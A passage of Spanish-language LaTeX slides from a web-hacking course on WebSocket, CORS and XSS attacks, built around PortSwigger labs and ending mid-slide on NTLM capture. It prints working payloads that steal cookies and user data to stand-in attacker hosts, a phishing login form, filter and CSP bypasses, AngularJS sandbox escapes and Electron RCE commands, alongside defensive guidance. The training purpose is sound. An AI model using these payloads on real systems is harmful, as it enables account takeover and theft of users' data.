  \item \{\textquotedbl{}message\textquotedbl{}:\textquotedbl{}\textless{}img src=x onerror=alert(1)\textgreater{}\textquotedbl{}\} $\rightarrow$ XSS
  \item \{\textquotedbl{}id\textquotedbl{}:\textquotedbl{}1 OR 1=1\textquotedbl{}\} $\rightarrow$ SQLi $\cdot$ XXE en payloads XML
  \item Herramientas
  \item Burp (WS history) $\cdot$ wsrepl $\cdot$ websocat $\cdot$ OWASP ZAP
  \item cobalt.io --- A Pentester's Guide to WebSocket Pentesting
  \item Mensaje WS legítimo
  \item \{\textquotedbl{}message\textquotedbl{}:\textquotedbl{}hola\textquotedbl{}\}
  \item Burp intercepta y edita
  \item \{\textquotedbl{}message\textquotedbl{}:\textquotedbl{}\textless{}img onerror\textgreater{}\textquotedbl{}\}
  \item Servidor sin validar $\rightarrow$ XSS
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{WebSockets --- Manipulación del handshake}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es?
  \item Modificar las cabeceras del handshake de apertura (HTTP Upgrade) para saltarse defensas del servidor durante un ataque por WebSocket.
  \item Bypass de bloqueo por IP con X-Forwarded-For
  \item GET /chat HTTP/1.1 Upgrade: websocket Connection: Upgrade X-Forwarded-For: 1.2.3.4
  \item Si el servidor banea tu IP al detectar un ataque (p.ej. XSS por mensaje), añadir/rotar X-Forwarded-For en el handshake resetea el bloqueo.
  \item Ofuscar el payload para el filtro XSS
  \item \textless{}img src=1 oNeRRor=alert(document.cookie)\textgreater{}
  \item Se combina con la manipulación de mensajes: ofuscar el payload (mayúsculas, encoding, atributos raros) para pasar el filtro del servidor.
  \item Flujo típico (lab PortSwigger)
  \item 1) Interceptar el handshake en Burp. 2) Reenviarlo con X-Forwarded-For falsificado. 3) Enviar el mensaje WS con el XSS ofuscado $\rightarrow$ se ejecuta.
  \item Fuente: curso Hacking Web $\cdot$ hack4u.io $\cdot$ cf. PortSwigger WebSockets
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{WebSockets --- Otras vulnerabilidades y defensa}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Comunicaciones sin cifrar (ws://)
  \item ws:// viaja en claro $\rightarrow$ MitM, robo de tokens y datos sensibles.
  \item Denial of Service
  \item Abrir muchas conexiones o mensajes masivos sin límite $\rightarrow$ DoS.
  \item Exposición de información sensible
  \item Tokens y datos personales en los mensajes WS sin protección.
  \item Defensa (remediation)
  \item Usar wss:// (TLS); validar el header Origin en el handshake;
  \item token CSRF en el handshake (anti-CSWSH); validar/sanear TODO
  \item mensaje; autenticar por mensaje; límites de conexión y ritmo.
  \item Trata cada mensaje WS como entrada NO confiable.
  \item cobalt.io $\cdot$ portswigger.net/web-security/websockets
  \end{itemize}
\end{frame}

\begin{frame}{Referencias y práctica --- WebSockets}
\footnotesize
  \begin{itemize}
  \item \href{https://portswigger.net/web-security/websockets}{PortSwigger --- WebSockets security} (labs)
  \item \href{https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html}{OWASP --- HTML5 / WebSockets Security}
  \end{itemize}
\end{frame}

\section{CORS}

\begin{frame}[allowframebreaks]{CORS --- Compartición de Recursos entre Orígenes}
\small
  \begin{itemize}
  \item CORS
  \item ¿Qué es CORS y por qué existe?
  \item La Same-Origin Policy (SOP) impide que JS de origin-A lea respuestas de origin-B.
  \item CORS (Cross-Origin Resource Sharing) es el mecanismo que RELAJA esa restricción
  \item de forma controlada mediante cabeceras HTTP.
  \item Cabeceras clave
  \item Access-Control-Allow-Origin: https://trusted.com $\rightarrow$ quién puede leer la respuesta
  \item Access-Control-Allow-Credentials: true $\rightarrow$ se incluyen cookies/auth
  \item Access-Control-Allow-Methods / Headers $\rightarrow$ métodos y cabeceras permitidos
  \item $\rightarrow$ El navegador hace un preflight OPTIONS antes de peticiones no simples.
  \item Petición simple vs Preflight
  \item Simple: GET/POST con Content-Type estándar $\rightarrow$ navegador añade Origin y espera ACAO.
  \item Preflight: PUT, DELETE, cabeceras custom $\rightarrow$ OPTIONS primero, luego la petición real.
  \item ¿Cuándo hay vulnerabilidad?
  \item El servidor configura ACAO de forma demasiado permisiva (refleja el Origin, usa *, permite null).
  \item Si además permite credenciales $\rightarrow$ el atacante puede leer datos autenticados del usuario.
  \item CORS mal configurado $\neq$ CSRF. CORS permite LEER la respuesta; CSRF ejecuta acciones.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CORS --- Reflexión del Origen (Labs 92-93)}
\small
  \begin{itemize}
  \item CORS
  \item Vulnerabilidad --- Reflexión del origen sin validación (Labs 92-93)
  \item El servidor toma el valor del header Origin de la petición y lo devuelve tal cual en ACAO.
  \item Resultado: cualquier origen puede leer la respuesta, incluidos datos sensibles.
  \item \cmd{\# Petición del atacante:}
  \item \cmd{Origin: https://attacker.com}
  \item \cmd{\# Respuesta del servidor vulnerable:}
  \item \cmd{Access-Control-Allow-Origin: https://attacker.com}
  \item \cmd{Access-Control-Allow-Credentials: true}
  \item Código del ataque (Lab 92)
  \item \cmd{fetch('https://victim.com/api/userdata', \{}
  \item \cmd{credentials: 'include'}
  \item \cmd{\}).then(r =\textgreater{} r.json()).then(data =\textgreater{} \{}
  \item \cmd{fetch('https://attacker.com/log?d=' + JSON.stringify(data));}
  \item \cmd{\});}
  \item $\rightarrow$ La víctima ejecuta este JS (via XSS o página controlada por atacante).
  \item $\rightarrow$ credentials:include envía las cookies $\rightarrow$ respuesta incluye datos privados.
  \item Lab 93 --- ACAO con wildcard y credenciales
  \item Access-Control-Allow-Origin: * con Allow-Credentials: true $\rightarrow$ combinación inválida
  \item $\rightarrow$ Los navegadores rechazan esta combinación, pero algunos servidores la configuran mal.
  \item Un servidor que refleja el Origin es equivalente a ACAO: * para el atacante.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CORS --- Origen null y Protocolos Inseguros}
\small
  \begin{itemize}
  \item CORS
  \item Lab 94 --- Origen null en la whitelist
  \item El header Origin vale 'null' en: iframes sandbox, data: URLs, file:// y redirects cross-origin.
  \item Si el servidor confía en null: Access-Control-Allow-Origin: null
  \item El atacante usa un iframe sandbox para generar Origin: null y leer la respuesta:
  \item \cmd{\textless{}iframe sandbox='allow-scripts allow-top-navigation allow-forms'}
  \item \cmd{srcdoc=\textquotedbl{}\textless{}script\textgreater{}}
  \item \cmd{fetch('https://victim.com/api/data', \{credentials:'include'\})}
  \item \cmd{.then(r=\textgreater{}r.text()).then(d=\textgreater{}location='https://attacker.com/?d='+d);}
  \item \cmd{\textless{}/script\textgreater{}\textquotedbl{}\textgreater{}}
  \item \cmd{\textless{}/iframe\textgreater{}}
  \item Labs 95-96 --- Protocolo inseguro en la whitelist
  \item El servidor confía en http://trusted.com (HTTP, sin TLS).
  \item El atacante en posición MITM intercepta la petición HTTP a trusted.com
  \item e inyecta una respuesta con el payload CORS.
  \item Resultado: el navegador cree que la petición viene de un origen confiable.
  \item $\rightarrow$ Subdominios HTTP de la whitelist son un vector frecuente en entornos reales.
  \item Nunca incluir 'null' ni URLs http:// en la whitelist de CORS.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CORS --- Defensa y Configuración Segura}
\small
  \begin{itemize}
  \item CORS
  \item Configuración segura de CORS
  \item Whitelist explícita y estática de orígenes de confianza:
  \item \cmd{if (request.origin in ALLOWED\_ORIGINS):}
  \item \cmd{response['Access-Control-Allow-Origin'] = request.origin}
  \item Nunca reflejar el valor de Origin directamente sin validar.
  \item Nunca poner null en la whitelist.
  \item Solo usar http:// si la conexión es interna y controlada.
  \item Reglas sobre credenciales
  \item Allow-Credentials: true SOLO con un ACAO específico (nunca con *).
  \item Si no necesitas credenciales cross-origin $\rightarrow$ no habilites Allow-Credentials.
  \item Cabecera Vary: Origin
  \item Añadir Vary: Origin para que los proxies cacheen por origen.
  \item $\rightarrow$ Sin esto, un proxy puede devolver la respuesta CORS de otro origen.
  \item No usar CORS como control de acceso
  \item CORS es un mecanismo del NAVEGADOR --- no protege peticiones server-to-server.
  \item Las APIs deben autenticar y autorizar cada petición independientemente.
  \item Combinar con: autenticación robusta + tokens CSRF + SameSite=Strict.
  \item Una configuración CORS laxa + credenciales = exfiltración de datos autenticados.
  \end{itemize}
\end{frame}

\begin{frame}{Referencias y práctica --- CORS}
\footnotesize
  \begin{itemize}
  \item \href{https://portswigger.net/web-security/cors}{PortSwigger --- CORS} (labs)
  \item \href{https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS}{MDN --- Cross-Origin Resource Sharing}
  \end{itemize}
\end{frame}

\section{XSS --- PortSwigger Academy}

\begin{frame}[allowframebreaks]{Hacking de Aplicaciones Web:}
\small
  \begin{itemize}
  \item Ataques en el Lado del Cliente
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Cross-Site Scripting (XSS)}
\small
  \begin{itemize}
  \item $\rightarrow$ Reflejado $\cdot$ Almacenado $\cdot$ DOM-based
  \item $\rightarrow$ Defacement $\cdot$ Phishing $\cdot$ Watering Hole
  \item $\rightarrow$ RCE $\cdot$ Session Hijacking $\cdot$ NTLM $\cdot$ CSP Bypass $\cdot$ File Upload
  \item Cross-Site Request Forgery (CSRF)
  \item $\rightarrow$ Bypass de tokens $\cdot$ SameSite $\cdot$ Referer
  \item Clickjacking
  \item $\rightarrow$ Frame injection $\cdot$ multi-step $\cdot$ anti-frame bypass
  \item Vulnerabilidades basadas en el DOM
  \item $\rightarrow$ Web Messages $\cdot$ Open Redirect $\cdot$ Cookie DOM $\cdot$ DOM Clobbering
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Cross-Site Scripting (XSS) --- Introducción}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item ¿Qué es XSS?
  \item Vulnerabilidad que permite inyectar código JavaScript malicioso en páginas web
  \item vistas por otros usuarios. El navegador de la víctima ejecuta el script en el
  \item contexto del sitio vulnerable.
  \item Impacto
  \item Robo de sesiones (cookies / tokens de autenticación)
  \item Phishing y redirección a páginas falsas
  \item Defacement: modificación visual de la página
  \item Keylogging y captura de contraseñas
  \item RCE en aplicaciones Electron con nodeIntegration=true
  \item Captura de hashes NTLM en redes Windows
  \item Tipos principales
  \item Reflejado (Reflected) Almacenado (Stored) DOM-based
  \item Clasificación OWASP / CWE
  \item OWASP Top 10 2021: A03 --- Injection
  \item CWE-79: Improper Neutralization of Input During Web Page Generation
  \item portswigger.net/web-security/cross-site-scripting
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS Reflejado}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Concepto
  \item El payload viaja en la petición HTTP y el servidor lo devuelve en la respuesta
  \item sin sanitizarlo. No se almacena --- requiere engañar a la víctima con un enlace.
  \item Ejemplo clásico --- parámetro de búsqueda (Lab 27)
  \item \cmd{\# GET /search?q=\textless{}script\textgreater{}alert(document.cookie)\textless{}/script\textgreater{}}
  \item \cmd{\# Respuesta: \textless{}p\textgreater{}Resultados para: \textless{}script\textgreater{}alert(...)\textless{}/script\textgreater{}\textless{}/p\textgreater{}}
  \item Contextos de inyección
  \item En HTML: \textless{}script\textgreater{}alert(1)\textless{}/script\textgreater{}
  \item En atributo: \textquotedbl{} onmouseover=\textquotedbl{}alert(1)
  \item En string JS: '-alert(1)-' o ';alert(1)//
  \item En href: javascript:alert(document.cookie)
  \item Labs PortSwigger --- reflejado
  \item Lab 27: HTML sin codificación $\cdot$ Lab 33: atributo (\textless{} \textgreater{} codificados)
  \item Lab 35: string JS (\textless{} \textgreater{} codificados) $\cdot$ Lab 37: DOM reflejado
  \item Labs 39-43: filtros, etiquetas bloqueadas, SVG, canonical
  \item portswigger.net/web-security/cross-site-scripting/reflected
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS Almacenado}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Concepto
  \item El payload persiste en el servidor (BD, logs, perfil...). Se ejecuta cuando
  \item cualquier usuario visualiza el contenido. El más peligroso.
  \item Vectores comunes
  \item Comentarios / foros $\cdot$ Campos de perfil $\cdot$ Mensajes privados
  \item Metadatos de ficheros subidos $\cdot$ Paneles de administración
  \item Ejemplo --- robo de cookies masivo (Lab 28)
  \item \cmd{\# Comentario: \textless{}script\textgreater{}}
  \item \cmd{\# fetch('https://attacker/steal?c='+document.cookie);}
  \item \cmd{\# \textless{}/script\textgreater{}}
  \item $\rightarrow$ Todos los visitantes ejecutan el fetch al ver la página
  \item Almacenado en href (Lab 34)
  \item \cmd{\# \textless{}a href=\textquotedbl{}javascript:alert(document.cookie)\textquotedbl{}\textgreater{}Haz clic\textless{}/a\textgreater{}}
  \item $\rightarrow$ Las comillas están HTML-encoded pero el href javascript: funciona igual
  \item Labs PortSwigger --- almacenado
  \item Lab 28: en HTML $\cdot$ Lab 34: en href $\cdot$ Lab 38: DOM almacenado
  \item Lab 46: en onclick con codificación completa (HTML entities)
  \item portswigger.net/web-security/cross-site-scripting/stored
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS DOM-based --- Concepto y fuentes/sinks}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item ¿Qué es XSS DOM-based?
  \item La vulnerabilidad reside en JavaScript del cliente. El servidor no procesa
  \item el payload --- el flujo de datos peligroso ocurre íntegramente en el navegador.
  \item Fuentes (Sources) --- origen de los datos del atacante
  \item location.search location.hash document.referrer
  \item postMessage() document.cookie window.name
  \item Sinks --- destino donde se ejecuta el código
  \item document.write() innerHTML / outerHTML
  \item eval() setTimeout() setInterval()
  \item element.href / element.src / window.location
  \item jQuery: \$() $\cdot$ .html() $\cdot$ .attr()
  \item Patrón vulnerable típico
  \item \cmd{\# var search = location.search.substring(1);}
  \item \cmd{\# document.write('\textless{}img src=\textquotedbl{}/img/' + search + '\textquotedbl{}\textgreater{}');}
  \item Payload: ?\textless{}img src=x onerror=alert(1)\textgreater{}
  \item portswigger.net/web-security/cross-site-scripting/dom-based
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS DOM --- document.write, innerHTML, href, jQuery}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Lab 29 --- document.write + location.search
  \item \cmd{\# document.write('\textless{}img src=\textquotedbl{}/img/' + decodeURIComponent(search) + '\textquotedbl{}\textgreater{}');}
  \item Payload: ?q=\textquotedbl{}\textgreater{}\textless{}svg onload=alert(1)\textgreater{}
  \item Lab 30 --- innerHTML + location.search
  \item innerHTML NO ejecuta \textless{}script\textgreater{} pero sí event handlers en otras etiquetas
  \item Payload: ?q=\textless{}img src=1 onerror=alert(document.cookie)\textgreater{}
  \item Lab 31 --- href + jQuery + location.search
  \item \cmd{\# \$('\#backLink').attr('href', (new URLSearchParams(search)).get('returnUrl'));}
  \item Payload: ?returnUrl=javascript:alert(document.cookie)
  \item Lab 32 --- jQuery + evento hashchange
  \item \cmd{\# \$(window).on('hashchange', function() \{}
  \item \cmd{\# var post = \$(location.hash); // selector = contenido del hash}
  \item \cmd{\# \$('html, body').animate(\{scrollTop: post.offset().top\}, 'fast');}
  \item \cmd{\# \});}
  \item Payload desde iframe: src+='\#\textless{}img src=x onerror=alert(1)\textgreater{}'
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS DOM --- AngularJS, DOM reflejado y almacenado}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Lab 36 --- AngularJS con comillas codificadas
  \item AngularJS evalúa expresiones \{\{\}\} en elementos con ng-app
  \item Payload: \{\{constructor.constructor('alert(1)')()\}\}
  \item $\rightarrow$ Escapa el sandbox de AngularJS para ejecutar código arbitrario
  \item Lab 37 --- DOM reflejado (Reflected DOM XSS)
  \item Servidor refleja datos en JSON que el JS del cliente evalúa con eval():
  \item \cmd{\# eval('var searchResultsObj = ' + responseData);}
  \item Payload: \textbackslash\{\}\textquotedbl{}-alert(1)\}// (cierra el JSON e inyecta alert)
  \item Lab 38 --- DOM almacenado (Stored DOM XSS)
  \item Filtro de la app elimina \textless{}script\textgreater{} pero sink es innerHTML:
  \item Payload: \textless{}\textgreater{}\textless{}img src=1 onerror=alert(1)\textgreater{}
  \item $\rightarrow$ El \textless{}\textgreater{} confunde el filtro; innerHTML lo ejecuta igual
  \item Diferencia DOM reflected vs DOM stored
  \item En ambos casos el servidor NO ejecuta el payload
  \item Solo el navegador de la víctima lo ejecuta al procesar el DOM
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{AngularJS Sandbox Escape --- Sin Cadenas de Texto}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Contexto --- AngularJS Sandbox (versiones $\leq$ 1.5.x)
  \item AngularJS evalúa expresiones \{\{\}\} en el scope y aplica un sandbox que impide acceder a window o Function directamente.
  \item El payload básico \{\{\$on.constructor('alert(1)')()\}\} usa comillas simples $\rightarrow$ filtros lo bloquean.
  \item Técnica 'sin cadenas': construir el payload evitando cualquier literal de string.
  \item Clave --- fromCharCode como constructor de strings
  \item toString().constructor $\rightarrow$ String
  \item String.fromCharCode(97,108,101,114,116,40,49,41) $\rightarrow$ 'alert(1)'
  \item Así se construye cualquier string sin escribir comillas.
  \item Payload Lab 51-52 --- sandbox escape sin strings
  \item \cmd{\{\{toString().constructor.prototype.charAt=[].join;}
  \item \cmd{[1]|orderBy:toString().constructor.fromCharCode(}
  \item \cmd{119,105,110,100,111,119,91,39,97,108,101,114,116,39,93,40,49,41)\}\}}
  \item $\rightarrow$ fromCharCode(...) construye window['alert'](1) sin usar comillas
  \item Obtener los códigos ASCII del payload
  \item \cmd{'window[\textbackslash\{\}'alert\textbackslash\{\}'](1)'.split('').map(c =\textgreater{} c.charCodeAt(0)).join(',')}
  \item AngularJS 1.6+ eliminó el sandbox --- esta técnica aplica solo a apps legacy con versiones antiguas de Angular.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS en contextos especiales --- atributos y JS strings}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Inyección en atributos (Lab 33)
  \item Input en: \textless{}input value=\textquotedbl{}VALOR\textquotedbl{}\textgreater{} con \textless{} \textgreater{} codificados
  \item Payload: \textquotedbl{} autofocus onfocus=alert(1) x=\textquotedbl{}
  \item $\rightarrow$ \textless{}input value=\textquotedbl{}\textquotedbl{} autofocus onfocus=alert(1) x=\textquotedbl{}\textquotedbl{}\textgreater{}
  \item Inyección en string JS (Lab 35)
  \item Input en: var x = 'VALOR'; con \textless{} \textgreater{} codificados
  \item Payload: '-alert(document.domain)-' o ';alert(1)//
  \item Escapes de backslash y comilla (Lab 44)
  \item La app escapa ' $\rightarrow$ \textbackslash\{\}' y \textbackslash\{\} $\rightarrow$ \textbackslash\{\}\textbackslash\{\}
  \item Si solo escapa la comilla: \textbackslash\{\}\textbackslash\{\}' rompe el escape $\rightarrow$ inyecta
  \item Si escapa ambos: usar template literals `\$\{alert(1)\}`
  \item Template literals JS (Lab 47)
  \item Input en: let msg = `Bienvenido, \$\{nombre\}`;
  \item Payload: \$\{alert(document.domain)\}
  \item Inyección en onclick con HTML entities (Lab 46)
  \item onclick=\textquotedbl{}x='VALOR';\textquotedbl{} --- body con HTML encoding
  \item \&apos; decodifica a ' dentro del handler onclick
  \item Payload: \&apos;-alert(1)-\&apos;
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS en href --- Protocolo javascript:}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Contexto --- inyección dentro de href
  \item El input se refleja/almacena dentro de \textless{}a href=\textquotedbl{}VALOR\textquotedbl{}\textgreater{}
  \item Filtros codifican \textless{} \textgreater{} \textquotedbl{} $\rightarrow$ no se puede cerrar el atributo ni inyectar etiquetas
  \item Pero si el contenido completo del href está bajo control $\rightarrow$ usar el protocolo javascript:
  \item Payload básico (Lab 29)
  \item \cmd{javascript:alert(document.domain)}
  \item $\rightarrow$ \textless{}a href=\textquotedbl{}javascript:alert(document.domain)\textquotedbl{}\textgreater{}
  \item $\rightarrow$ Al hacer clic, el navegador ejecuta el JS. NO requiere inyectar HTML.
  \item XSS almacenado en href (Lab 34)
  \item Aplicación almacena URLs en BD (p.ej., campo 'Website' del perfil de usuario).
  \item El filtro bloquea \textless{} \textgreater{} \textquotedbl{} pero permite javascript: como valor de href.
  \item Payload almacenado: javascript:alert(document.cookie)
  \item $\rightarrow$ Se ejecuta cada vez que cualquier usuario hace clic en el enlace.
  \item Bypass si 'javascript' está bloqueado como palabra
  \item \cmd{JaVaScRiPt:alert(1) $\leftarrow$ capitalización aleatoria}
  \item \cmd{javascript\&\#58;alert(1) $\leftarrow$ HTML entity para los dos puntos}
  \item \cmd{java\&\#09;script:alert(1) $\leftarrow$ tab (\&\#9;) entre java y script}
  \item \cmd{\&\#106;avascript:alert(1) $\leftarrow$ primera letra como HTML entity}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS en javascript: con Caracteres Limitados}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Contexto (Labs 55-56)
  \item El payload queda dentro de un bloque javascript: con restricciones de caracteres.
  \item Filtro puede bloquear: paréntesis (), comillas, palabras como 'alert', 'eval'...
  \item Objetivo: ejecutar JS arbitrario con el conjunto de caracteres permitido.
  \item Técnica 1 --- throw + onerror (sin paréntesis)
  \item Cuando () están bloqueados:
  \item \cmd{javascript:throw onerror=alert,1337}
  \item $\rightarrow$ onerror se asigna a window.alert; throw lanza 1337 como mensaje
  \item \cmd{javascript:onerror=alert;throw 1}
  \item Técnica 2 --- eval + atob (sin comillas, payload en Base64)
  \item \cmd{btoa('alert(document.domain)') $\rightarrow$ YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==}
  \item \cmd{javascript:eval(atob`YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==`)}
  \item $\rightarrow$ Template literal permite llamar a atob sin paréntesis adicionales
  \item Técnica 3 --- bracket notation y hex escapes
  \item \cmd{javascript:window['alert'](1) $\leftarrow$ evita el nombre literal alert}
  \item \cmd{javascript:self['\textbackslash\{\}x61lert'](1) $\leftarrow$ hex escape dentro del nombre}
  \item \cmd{javascript:[1].find(alert) $\leftarrow$ pasa alert como referencia}
  \item \cmd{javascript:[1].map(eval,['alert(1)']) $\leftarrow$ map + eval}
  \item Combinar varias técnicas cuando hay múltiples restricciones simultáneas.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS con filtros --- WAF y etiquetas bloqueadas}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Labs 39-40 --- \textless{}script\textgreater{} bloqueado
  \item Probar otras etiquetas con event handlers:
  \item \textless{}img src=x onerror=alert(1)\textgreater{} \textless{}body onload=alert(1)\textgreater{}
  \item \textless{}input autofocus onfocus=alert(1)\textgreater{} \textless{}details open ontoggle=alert(1)\textgreater{}
  \item Lab 41 --- Solo etiquetas personalizadas
  \item \textless{}xss autofocus tabindex=1 onfocus=alert(1)\textgreater{}
  \item Lab 42 --- SVG permitido
  \item \textless{}svg\textgreater{}\textless{}animatetransform onbegin=alert(1)\textgreater{}\textless{}/svg\textgreater{}
  \item \textless{}svg\textgreater{}\textless{}set onbegin=alert(1)\textgreater{}\textless{}/svg\textgreater{}
  \item Lab 43 --- Etiqueta canonical con accesskey
  \item \textless{}link rel=\textquotedbl{}canonical\textquotedbl{} href='x\textquotedbl{} accesskey=\textquotedbl{}x\textquotedbl{} onclick=\textquotedbl{}alert(1)'\textgreater{}
  \item $\rightarrow$ Requiere Alt+Shift+X del usuario
  \item Técnicas generales de bypass
  \item Capitalización: \textless{}ScRiPt\textgreater{} $\cdot$ Comentarios: \textless{}scr\textless{}!----\textgreater{}ipt\textgreater{}
  \item Eventos poco comunes: onpointerover $\cdot$ ontoggle $\cdot$ onanimationend
  \item Encapsulado: \textless{}\textless{}script\textgreater{}script\textgreater{}alert(1)\textless{}\textless{}/script\textgreater{}/script\textgreater{}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS con CSP --- bypass técnico}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Content-Security-Policy
  \item Cabecera HTTP que restringe qué scripts puede ejecutar el navegador.
  \item Principal mitigación contra XSS. Puede ser bypasseada.
  \item Bypass con JSONP en dominio de confianza
  \item CSP: script-src 'self' https://api.trusted.com
  \item Si trusted.com expone JSONP: ?callback=alert(1)
  \item \textless{}script src='https://api.trusted.com/data?callback=alert(1)'\textgreater{}
  \item AngularJS sandbox escape + CSP (Lab 53)
  \item CSP bloquea inline scripts pero AngularJS evalúa \{\{\}\} sin \textless{}script\textgreater{}
  \item Escape sin strings:
  \item \cmd{\# toString().constructor.prototype.charAt=[].join;}
  \item \cmd{\# [1]|orderBy:'toString().constructor.fromCharCode(120,115,115)'}
  \item Dangling markup con CSP estricto (Labs 57-59)
  \item \textless{}img src=\textquotedbl{}https://attacker/?data=
  \item $\rightarrow$ Captura el HTML siguiente hasta la próxima comilla
  \item $\rightarrow$ Exfiltra tokens CSRF, nonces u otra info sensible
  \item CSP con nonces por request + sin unsafe-inline es muy robusto
  \item portswigger.net/web-security/cross-site-scripting/content-security-policy
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- Defacement, Phishing y Watering Hole}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Defacement mediante XSS
  \item \cmd{\# document.body.innerHTML = '\textless{}h1 style=\textquotedbl{}color:red\textquotedbl{}\textgreater{}Hacked!\textless{}/h1\textgreater{}';}
  \item \cmd{\# document.title = 'Hacked';}
  \item \cmd{\# document.body.style.backgroundImage = 'url(https://attacker/img.png)';}
  \item Phishing vía XSS --- Fake Login
  \item Inyectar formulario de login falso sobre la página legítima:
  \item \cmd{\# document.body.innerHTML = `}
  \item \cmd{\# \textless{}form action='https://attacker.com/steal' method=POST\textgreater{}}
  \item \cmd{\# \textless{}h2\textgreater{}Sesión expirada. Inicia sesión de nuevo:\textless{}/h2\textgreater{}}
  \item \cmd{\# \textless{}input name=user\textgreater{}\textless{}input type=password name=pass\textgreater{}}
  \item \cmd{\# \textless{}button\textgreater{}Entrar\textless{}/button\textgreater{}\textless{}/form\textgreater{}`;}
  \item $\rightarrow$ La víctima ve la URL legítima pero envía credenciales al atacante
  \item Watering Hole
  \item Comprometer un sitio frecuentado por el objetivo
  \item XSS almacenado $\rightarrow$ robo automático de sesiones de todos los visitantes
  \item Ejemplo: foro de empleados $\rightarrow$ XSS $\rightarrow$ robo de tokens VPN/SSO
  \item XSS almacenado + Watering Hole = vector APT muy efectivo
  \item El phishing vía XSS usa URL legítima $\rightarrow$ mucho más convincente
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- Ejecución Remota de Código (RCE)}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item RCE en aplicaciones Electron
  \item Electron = apps de escritorio con Chromium + Node.js.
  \item Si nodeIntegration=true y contextIsolation=false $\rightarrow$ XSS da RCE:
  \item \cmd{\# require('child\_process').exec('calc.exe'); // Windows}
  \item \cmd{\# require('child\_process').exec('open /Applications/Calculator.app');}
  \item \cmd{\# require('child\_process').execSync('id').toString(); // Linux/macOS}
  \item Condiciones necesarias
  \item nodeIntegration: true (renderer puede usar require())
  \item contextIsolation: false (renderer comparte contexto con Node.js)
  \item Apps históricamente afectadas
  \item Slack (CVE-2019-12031) $\cdot$ WhatsApp Desktop $\cdot$ Discord $\cdot$ Skype
  \item RCE vía SSTI + XSS (Server-Side Template Injection)
  \item Si el servidor renderiza input del usuario en una plantilla Angular/Vue SSR
  \item $\rightarrow$ Template injection puede derivar en RCE en el servidor
  \item Mitigaciones
  \item Electron: contextIsolation=true + nodeIntegration=false + sandbox=true + CSP
  \item XSS en Electron: CVSS típico 9.0--10.0
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- Session Hijacking y captura de credenciales}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Session Hijacking --- robo de cookies (Lab 47)
  \item \cmd{\# \textless{}script\textgreater{}}
  \item \cmd{\# new Image().src='https://attacker/steal?c='+encodeURIComponent(document.cookie);}
  \item \cmd{\# \textless{}/script\textgreater{}}
  \item Alternativa sin fetch (bypassa algunos WAF)
  \item \cmd{\# \textless{}img src=x onerror=\textquotedbl{}this.src='https://attacker/c?'+document.cookie\textquotedbl{}\textgreater{}}
  \item HttpOnly --- mitigación y límites
  \item Cookies con HttpOnly: document.cookie no las expone
  \item Bypass: no se roba la cookie, pero se usa la sesión activa:
  \item \cmd{\# fetch('/transfer',\{method:'POST',credentials:'include',}
  \item \cmd{\# body:'amount=9999\&to=attacker',}
  \item \cmd{\# headers:\{'Content-Type':'application/x-www-form-urlencoded'\}\})}
  \item Captura de contraseñas con gestor (Lab 48)
  \item \cmd{\# \textless{}input name=username\textgreater{} \textless{}!-- gestor de contraseñas rellena --\textgreater{}}
  \item \cmd{\# \textless{}input type=password name=password}
  \item \cmd{\# onchange=\textquotedbl{}fetch('/log?p='+this.value)\textquotedbl{}\textgreater{}}
  \item Defensa
  \item HttpOnly + Secure + SameSite=Strict en cookies
  \item CSP: script-src 'nonce-...' (sin unsafe-inline)
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- Captura de hashes NTLM}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Mecanismo
  \item En redes Windows con IE/Edge Legacy, el navegador intenta autenticarse
  \item automáticamente con credenciales NTLM al acceder a recursos UNC.
  \item Payload XSS para forzar autenticación NTLM
